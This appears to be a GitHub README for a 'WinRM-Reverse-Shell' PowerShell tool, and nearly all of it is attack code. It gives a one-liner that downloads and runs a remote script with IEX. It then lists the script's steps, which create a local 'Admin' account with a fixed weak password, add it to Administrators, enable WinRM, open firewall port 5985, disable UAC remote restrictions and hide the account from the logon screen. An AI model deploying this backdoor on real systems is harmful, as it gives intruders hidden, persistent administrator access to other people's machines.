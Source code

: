 # WinRM-Reverse-Shell

# Powershell One liner with administrator permissions
`IEX (IWR "https://raw.githubusercontent.com/VBV11/WinRM-Reverse-Shell/main/WinRM.ps1")`

# Script into pieces
## Create a new local user account
$Username = "`Admin`"
$Password = ConvertTo-SecureString "`Password1`" -AsPlainText -Force
New-LocalUser -Name $Username -Password $Password -PasswordNeverExpires

## Add the newly created user to the local Administrators group
Add-LocalGroupMember -Group "Administrators" -Member $Username

## Enable Windows Remote Management (WinRM)
Enable-PSRemoting -Force

## Add a firewall rule to allow WinRM traffic
New-NetFirewallRule -DisplayName "Windows Remote Management for RD" -Direction Inbound -Protocol TCP -LocalPort 5985 -Action Allow

## Disable UAC remote restrictions
+ Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -Force
+ New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" -Name "Admin" -Value 0 -PropertyType DWORD -Force

## Exit PowerShell session
Exit
